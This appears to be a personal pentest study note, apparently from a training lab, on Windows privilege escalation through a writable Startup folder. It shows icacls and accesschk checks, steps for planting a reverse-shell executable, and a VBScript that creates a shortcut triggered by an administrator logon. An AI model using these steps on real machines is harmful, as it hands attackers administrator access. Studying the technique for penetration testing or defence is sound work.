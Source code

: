 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| MASK | PERMISSIONS |  
| ----------- | ----------- |  
| F | Full access |  
| M | Modify access |
| RX | Rad and execute access |  
| R | Read-only access |
| W | Write-only access |

**Detection**  

 Open command prompt and type: 
 
```command prompt - windows 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the `BUILTIN\Users` group has full access ‘(F)’ to the directory.

**Exploitation**

[[1._Reverse Shells (WIN)#MSFVenom]]  

Copy the generated file, x.exe, to the Windows target.

Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`.  

Logoff.  

Login with the administrator account credentials.

Wait for a session to be created, it may take a few seconds.  


#### Malicious file
CreateShortcut.vbs

```command prompt - windows
Set oWS = WScript.CreateObject("WScript.Shell")

sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"

Set oLink = oWS.CreateShortcut(sLinkFile)

oLink.TargetPath = "C:\PrivEsc\reverse.exe"

oLink.Save
```

1. Use accesschk.exe to check permissions on the StartUp directory:

```command prompt - windows
.\accesschk64.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.

3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

4. Run the script using cscript:

```command prompt - windows
cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

![[rlwrap]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
